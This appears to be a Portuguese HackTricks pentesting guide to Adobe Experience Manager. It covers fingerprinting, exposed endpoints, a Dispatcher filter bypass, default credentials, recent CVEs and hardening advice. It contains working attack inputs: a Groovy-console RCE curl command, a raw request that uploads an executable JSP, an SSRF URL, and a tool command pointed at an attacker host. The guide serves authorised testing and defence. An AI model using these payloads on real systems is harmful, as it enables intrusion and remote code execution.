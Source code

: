 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, parte do Adobe Experience Cloud) é um CMS corporativo que roda sobre Apache Sling/Felix (OSGi) e um Repositório de Conteúdo Java (JCR).
> Do ponto de vista de um atacante, instâncias do AEM frequentemente expõem endpoints de desenvolvimento perigosos, regras de Dispatcher fracas, credenciais padrão e uma longa lista de CVEs que são corrigidos a cada trimestre.

A lista de verificação abaixo foca na **superfície de ataque (unauth) acessível externamente** que continua aparecendo em engajamentos reais (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Outros indicadores rápidos:
* `/etc.clientlibs/` caminho estático presente (retorna JS/CSS).
* `/libs/granite/core/content/login.html` página de login com o banner “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` comentário na parte inferior do HTML.

---

## 2. Endpoints não autenticados de alto valor

Caminho | O que você obtém | Notas
---- | ------------- | -----
`/.json`, `/.1.json` | Nós JCR via **DefaultGetServlet** | Frequentemente bloqueado, mas *Dispatcher bypass* (veja abaixo) funciona.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Vazamento da árvore de páginas, caminhos internos, nomes de usuários.
`/system/console/status-*`, `/system/console/bundles` | Console OSGi/Felix | 403 por padrão; se exposto e credenciais encontradas ⇒ RCE de upload de pacote.
`/crx/packmgr/index.jsp` | Gerenciador de Pacotes | Permite pacotes de conteúdo autenticados → upload de payload JSP.
`/etc/groovyconsole/**` | Console Groovy AEM | Se exposto → execução arbitrária de Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Logs de auditoria | Divulgação de informações.
`/libs/cq/ui/content/dumplibs.html` | Dump de ClientLibs | Vetor XSS.

### Truque de bypass do Dispatcher
A maioria dos sites de produção está atrás do *Dispatcher* (proxy reverso). Suas regras de filtro podem ser contornadas adicionando uma extensão estática permitida **após um ponto e vírgula ou nova linha codificada**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Uma única solicitação como a acima frequentemente revela nós de perfil de usuário com endereços de e-mail. A P-T Partners publicou boas orientações sobre essa vulnerabilidade. 【】

---

## 3. Configurações incorretas comuns (ainda vivas em 2025)

1. **Servlet POST anônimo** – `POST /.json` com `:operation=import` permite que você crie novos nós JCR. Bloquear `*.json` POST no Dispatcher resolve isso. 【】
2. **Perfis de usuário legíveis por todos** – ACL padrão concede `jcr:read` em `/home/users/**/profile/*` para todos.
3. **Credenciais padrão** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** habilitado ⇒ XSS refletido via `?debug=layout` (CVE-2016-7882, ainda encontrado em instalações legadas 6.4).
5. **Console Groovy exposto** – execução remota de código ao enviar um script Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Vulnerabilidades recentes (cadência de pacotes de serviço)

Trimestre | CVE | Afetado | Impacto
------- | --- | -------- | ------
Dez 2024 | **CVE-2024-43711** | 6.5.21 e anteriores | Validação de entrada inadequada → **Execução de código arbitrário** (requer autenticação de baixo privilégio). 【】
Dez 2024 | CVE-2024-43724/26 | 6.5.21 e anteriores | XSS DOM / Armazenado no Assistente de Mover Página. 【】
Dez 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS baseado em DOM via URL manipulada. 【】
Dez 2022 | CVE-2022-30683 | ≤ 6.5.13 | Falha de design criptográfico → descriptografia secreta (necessita de credenciais de baixo privilégio). 【】

Sempre verifique o boletim *APSB* correspondente ao pacote de serviço do cliente e solicite o mais recente **6.5.22** ou *Cloud Service 2024.11*.

---

## 5. Trechos de exploração

### 5.1 RCE via bypass do dispatcher + upload de JSP
Se a gravação anônima for possível:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Agora solicite `/content/evil.jsp` – o JSP é executado com o usuário do processo AEM.

### 5.2 SSRF para RCE (histórico < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` do **aem-hacker** automatiza toda a cadeia. 【】

---

## 6. Ferramentas

* **aem-hacker** – script de enumeração tipo canivete suíço, suporta bypass de dispatcher, detecção de SSRF, verificações de credenciais padrão e mais.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Força bruta de conteúdo** – solicita recursivamente `/_jcr_content.(json|html)` para descobrir componentes ocultos.
* **osgi-infect** – faça upload de um pacote OSGi malicioso via `/system/console/bundles` se as credenciais estiverem disponíveis.

---

## 7. Lista de verificação de endurecimento (para as recomendações do seu relatório)

1. Mantenha a instância na **última atualização cumulativa** (a partir de jul 2025: 6.5.22).
2. Remova/rotacione contas padrão; imponha SSO/SAML.
3. Reforce os **filtros do Dispatcher** – negue `;`, quebras de linha codificadas e `*.json` ou `*.querybuilder.json` para usuários anônimos.
4. Desative ou proteja consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) com listas de permissão de IP.
5. Aplique o pacote *Endurecimento de Permissão Anônima* enviado pela Adobe.

## Referências

* Adobe Security Bulletin APSB24-69 – “Atualizações de segurança para Adobe Experience Manager (dez 2024)”.
* 0ang3el – ferramenta aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
